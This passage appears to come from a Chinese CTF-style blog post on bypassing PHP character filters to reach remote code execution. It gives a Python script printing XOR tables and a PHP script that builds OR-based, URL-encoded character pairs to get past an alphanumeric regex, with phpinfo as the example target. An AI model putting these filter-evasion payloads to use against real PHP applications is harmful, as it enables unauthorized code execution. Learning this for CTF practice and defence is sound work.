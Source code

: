 > 
fuzz脚本


```
def r_xor(): 
	for i in range(0,127): 
		for j in range(0,127): 
			result=i^j 
			print(" "+chr(i)+" ASCII:"+str(i)+' &lt;--xor--&gt; '+chr(j)+" ASCII:"+str(j)+' == '+chr(result)+" ASCII:"+str(result)) 

if __name__ == "__main__": 
	r_xor()

```

> 
解析：



<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602164314723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210602164556266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 或绕过

> 
生成脚本


```
&lt;?php
$myfile = fopen("or_rce.txt", "w");
$contents="phpinfo";
for ($i=0; $i &lt; 256; $i++) { 
    for ($j=0; $j &lt;256 ; $j++) { 

        if($i&lt;16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j&lt;16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }
  
        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)|urldecode($b));
        if (ord($c)&gt;=32&amp;ord($c)&lt;=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }

}
}
fwrite($myfile,$contents);
fclose($myfile);
```